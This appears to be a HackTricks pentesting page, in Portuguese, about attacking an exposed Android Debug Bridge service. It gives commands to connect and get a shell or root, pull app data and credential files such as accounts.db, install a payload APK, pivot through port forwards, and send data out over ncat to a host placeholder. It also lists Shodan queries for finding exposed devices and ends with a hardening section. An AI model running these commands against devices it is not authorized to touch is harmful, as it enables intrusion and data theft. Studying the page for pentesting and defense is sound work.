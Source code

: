 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Informações Básicas

Do [documentos](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) é uma ferramenta de linha de comando para se comunicar com dispositivos e emuladores baseados em Android. As ações típicas incluem instalar pacotes, depurar e obter um shell Unix interativo no dispositivo.

- Porta TCP padrão histórica: 5555 (modo clássico "adb tcpip").
- A depuração sem fio moderna (Android 11+) usa emparelhamento TLS e descoberta de serviço mDNS. A porta de conexão é dinâmica e descoberta via mDNS; pode não ser 5555. O emparelhamento é feito com adb pair host:port seguido por adb connect. Veja as notas abaixo para implicações ofensivas.

Exemplo de impressão digital nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Conectar

Se você encontrar o ADB exposto e acessível, tente se conectar e enumerar rapidamente:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Se o dispositivo impõe autenticação ADB (ro.adb.secure=1), você precisará ser pré-autorizado (autenticação USB RSA) ou usar o emparelhamento de depuração sem fio do Android 11+ (que requer um código de uso único exibido no dispositivo).
- Algumas imagens de fornecedores, builds de engenharia/userdebug, emuladores, TVs, STBs e kits de desenvolvimento expõem adbd sem autenticação ou com adbd rodando como root. Nesses casos, você normalmente cairá diretamente em um shell ou shell root.

Para uma referência geral de comandos ADB, veja:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Rápida Pós-Exploração

Uma vez que você tenha o shell, valide privilégios e contexto SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerar e capturar dados

- Liste aplicativos de terceiros e caminhos:
```bash
pm list packages -3
pm path <pkg>
```
- Se você tiver root (adb root ou su funciona), você pode acessar /data diretamente. Se não, prefira run-as para aplicativos depuráveis:
```bash
# Sem root, para um aplicativo depurável
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Com root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Artefatos de sistema úteis (root necessário):
- /data/system/users/0/accounts.db e dados relacionados ao AccountManager
- /data/misc/wifi/ (configurações/chaves de rede em versões mais antigas)
- DBs SQLite específicos de aplicativos e shared_prefs em /data/data/<pkg>

Você pode usar isso para recuperar informações sensíveis (por exemplo, segredos de aplicativos). Para notas sobre considerações de dados do Chrome, veja a questão referenciada [aqui](https://github.com/carlospolop/hacktricks/issues/274).

### Execução de código e entrega de payload

- Instale e conceda permissões de execução automaticamente:
```bash
adb install -r -g payload.apk         # -g concede todas as permissões de execução declaradas no manifesto
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Inicie atividades/serviços/transmissões diretamente:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Encaminhamento de porta e pivotagem

Mesmo sem root, adb pode encaminhar portas locais para portas do dispositivo e vice-versa. Isso é útil para acessar serviços vinculados localmente no dispositivo ou para expor serviços do atacante ao dispositivo.

- Encaminhar host->dispositivo (acessar um serviço local do dispositivo a partir do seu host):
```bash
adb forward tcp:2222 tcp:22       # Se o dispositivo executar SSH (por exemplo, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Expor o servidor de depuração local do aplicativo
```
- Reverso dispositivo->host (deixar o dispositivo acessar um serviço no seu host):
```bash
adb reverse tcp:1080 tcp:1080     # Aplicativos do dispositivo agora podem acessar host:1080 como 127.0.0.1:1080
```
- Exfiltração de arquivos sobre sockets (sem gravações no sdcard):
```bash
# No host: escutar
ncat -lvp 9000 > dump.tar
# No dispositivo: enviar diretório como tar (root ou run-as conforme aplicável)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Depuração Sem Fio (Android 11+)

O Android moderno implementa depuração sem fio protegida por TLS com emparelhamento do lado do dispositivo e descoberta mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notas
- As portas são dinâmicas; não assuma 5555. Os nomes de serviços mDNS parecem com:
- _adb-tls-pairing._tcp (pareamento)
- _adb-tls-connect._tcp (conexão pareada)
- _adb._tcp (legado/simples)
- Se o mDNS estiver filtrado, a habilitação clássica assistida por USB ainda pode funcionar em algumas versões: `adb tcpip 5555` então `adb connect <ip>:5555` (até reiniciar).

Implicações ofensivas: se você puder interagir com a interface do dispositivo (por exemplo, acesso físico ou configuração incorreta de MDM móvel) para habilitar a depuração sem fio e visualizar o código de pareamento, você pode estabelecer um canal ADB pareado de longa duração sem um cabo. Alguns OEMs expõem ADB sobre TCP em imagens de engenharia/desenvolvimento sem pareamento—sempre verifique.

## Fortalecimento / Detecção

Os defensores devem assumir que qualquer adbd (TCP) acessível é um risco crítico.

- Desative ADB e a depuração sem fio quando não necessário. Revogue autorizações de depuração USB nas opções de desenvolvedor.
- Certifique-se de que a política de rede bloqueie TCP/5555 de entrada e a descoberta ADB baseada em mDNS em segmentos não confiáveis.
- Em dispositivos sob seu controle:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # desabilitar escuta TCP (ou use: adb usb)
stop adbd; start adbd             # reiniciar daemon
```
- Monitore registros mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` em redes corporativas e alertas para ouvintes 5555 inesperados.
- Faça um inventário de versões inseguras: `getprop ro.debuggable`, `ro.build.type`, e `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referências

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
